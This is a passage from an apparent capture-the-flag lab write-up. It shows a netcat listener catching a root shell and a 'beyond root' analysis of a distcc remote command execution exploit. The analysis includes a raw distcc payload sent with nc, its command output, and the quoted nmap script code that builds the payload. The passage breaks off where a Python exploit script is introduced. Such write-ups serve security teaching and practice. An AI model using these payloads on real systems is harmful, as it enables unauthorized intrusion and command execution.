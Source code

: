     
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:49683.
    id
    uid=0(root) gid=0(root)
    

## Beyond Root - distcc Exploit

To see what was happening, I started Wireshark and ran the distcc `nmap`
exploit again. There’s some pinging, and a few test TCP streams, before the
payload shows up in TCP stream 3:

![image-20200407151950507](https://0xdfimages.gitlab.io/img/image-20200407151950507.png)

I can see both the exploit and the response in there.

To test, I tried pasting that same string into `nc`. It worked, returning the
output of `id`:

    
    
    root@kali# nc 10.10.10.3 3632
    DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(id)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A
    DONE00000001STAT00000000SERR00000000SOUT0000002duid=1(daemon) gid=1(daemon) groups=1(daemon)
    DOTO00000000Ncat: Connection reset by peer.
    

I tried changing the command, and it just hung:

    
    
    root@kali# nc 10.10.10.3 3632
    DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(whoami)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A
    

Looking back at the `nmap` script, I see this block in the middle:

    
    
      local cmds = {
        "DIST00000001",
        ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
        "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
        "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
        "DOTI00000001A\n",
      }
    

There are two things filled in. First, 8 hex digits of the length of the
command + 10 (I’m guessin the 10 being `sh -c '(` and `')`.) Then the command.

I wrote a quick Python script to exploit this:
